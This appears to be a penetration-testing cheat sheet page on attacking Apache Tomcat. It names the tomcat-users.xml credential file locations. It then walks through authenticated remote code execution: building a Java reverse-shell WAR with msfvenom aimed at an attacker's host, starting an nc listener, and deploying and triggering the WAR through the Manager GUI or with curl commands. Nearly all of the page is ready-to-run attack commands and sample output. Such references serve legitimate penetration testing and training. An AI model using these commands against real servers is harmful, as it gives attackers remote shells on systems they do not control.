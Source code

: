 ```yaml
---
title: "Apache Tomcat"
date: 2024-7-2
tags: ["Web Exploitation", "Tomcat", "Apache", "Web Server", "War", "Java", "RCE"]
---
```


### Config Location

```console
/usr/share/tomcat9/etc/tomcat-users.xml
```

```console
/etc/tomcat9/tomcat-users.xml
```

---

### RCE (Authenicated)

#### 1. Create a WAR file

```console
msfvenom -p java/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f war -o revshell.war
```

```console {class="sample-code"}
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f war -o revshell.war
Payload size: 13029 bytes
Final size of war file: 13029 bytes
Saved as: revshell.war
```

#### 2. Start a listener

```console
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ..
```

{{< tab set1 tab1 active >}}3a. Manager GUI{{< /tab >}}
{{< tab set1 tab2 >}}3b. Manager Script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
+--------------------------------------------+
| Exploit                                    |
+--------------------------------------------+
| 1. Login to Tomcat Web Application Manager |
| 2. WAR file to deploy -> Deploy            |
| 3. Click /revshell in Applications table   |
+--------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
curl -u '<USER>:<PASSWORD>' http://<DOMAIN>:8080/manager/text/deploy?path=/revshell --upload-file revshell.war
```

```console
curl -s http://<DOMAIN>:8080/revshell
```

{{< /tabcontent >}}

<br>
